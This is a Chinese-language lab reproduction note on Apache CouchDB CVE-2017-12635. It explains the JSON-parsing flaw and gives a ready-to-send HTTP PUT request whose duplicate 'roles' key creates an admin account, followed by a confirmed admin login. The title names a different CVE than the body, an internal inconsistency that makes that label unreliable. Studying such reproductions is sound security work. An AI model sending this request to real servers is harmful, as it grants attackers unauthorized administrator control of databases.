 # Couchdb 垂直权限绕过漏洞 (CVE-2016-3088)

> 漏洞说明

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。



> 前提条件

版本：Apache CouchDB < 1.7.0	Apache CouchDB < 2.1.1



> 利用工具



> 漏洞复现

启动环境，访问http://192.168.40.77:5984/_utils/

![image-20221230135700586](../img/Apache CouchDB_CVE-2017-12635/image-20221230135700586.png)

发送数据包

```http
PUT http://192.168.40.77:5984/_users/org.couchdb.user:tomato HTTP/1.1
Host: 192.168.40.77:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 112

{
  "type": "user",
  "name": "tomato",
  "roles": ["_admin"],
  "roles": [],
  "password": "123456"
}


```

可以看到成功添加用户tomato

![image-20221230205337758](../img/Apache CouchDB_CVE-2017-12635/image-20221230205337758.png)

此时登录账号tomato/123456即可进入管理员后台

![image-20221230205605479](../img/Apache CouchDB_CVE-2017-12635/image-20221230205605479.png)